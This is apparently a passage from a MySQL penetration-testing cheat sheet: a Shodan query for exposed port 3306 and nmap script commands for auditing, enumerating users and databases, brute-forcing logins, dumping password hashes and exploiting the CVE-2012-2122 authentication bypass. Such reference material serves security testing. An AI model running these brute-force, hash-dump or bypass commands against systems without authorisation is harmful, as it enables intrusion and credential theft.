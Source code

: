 ```sql
FLUSH PRIVILEGES;
quit;
```

```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

# MYSQL Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:3306 |

<h2>Enumeration</h2>

```bash
# !!!! You should edit --script-args for your MYSQL Server !!!

# Audits MySQL database server security configuration
nmap -p 3306 --script mysql-audit --script-args "mysql-audit.username='root', \
  mysql-audit.password='foobar',mysql-audit.filename='nselib/data/mysql-cis.audit'" 192.168.x.x

# Bruteforce accounts and password against a MySQL Server
nmap --script=mysql-brute --script-args userdb=users.txt,passdb=passwords.txt -p 3306 192.168.x.x

# Attempts to list all databases on a MySQL server. (creds required)
nmap -sV --script=mysql-databases -p 3306 192.168.x.x

#Dumps the password hashes from an MySQL server in a format suitable (creds required)
nmap --script mysql-dump-hashes --script-args='username=root,password=secret' -p 3306 192.168.x.x

# Checks for MySQL servers with an empty password for root or anonymous.
nmap -sV --script=mysql-empty-password -p 3306 192.168.x.x

# Performs valid-user enumeration against MySQL server using a bug
nmap --script=mysql-enum -p 3306 192.168.x.x

# Connects to a MySQL server and prints information such as the protocol and version numbers, thread ID, status, capabilities, and the password salt.
nmap -sV -sC -p 3306 192.168.x.x

# Runs a query against a MySQL database and returns the results as a table. (creds required)
nmap --script mysql-query --script-args='query="<query>"[,username=<username>,password=<password>]' -p 3306 192.168.x.x

# Attempts to list all users on a MySQL server.
nmap -sV --script=mysql-users -p 3306 192.168.x.x

# Attempts to show all variables on a MySQL server.
nmap -sV --script=mysql-variables -p 3306 192.168.x.x

# Attempts to bypass authentication in MySQL and MariaDB servers by exploiting CVE2012-2122. If its vulnerable, it will also attempt to dump the MySQL usernames and password hashes. 
nmap --script mysql-vuln-cve2012-2122 -p3306 192.168.x.x
```
